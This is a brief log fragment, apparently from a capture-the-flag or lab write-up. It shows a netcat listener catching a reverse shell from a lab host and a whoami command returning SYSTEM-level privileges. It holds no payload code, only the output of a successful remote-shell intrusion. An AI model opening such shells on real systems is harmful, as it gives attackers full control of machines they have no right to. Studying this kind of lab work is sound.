listening on [any] 6666 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.14] 59099
PS C:\ProgramData> whoami
nt authority\system
```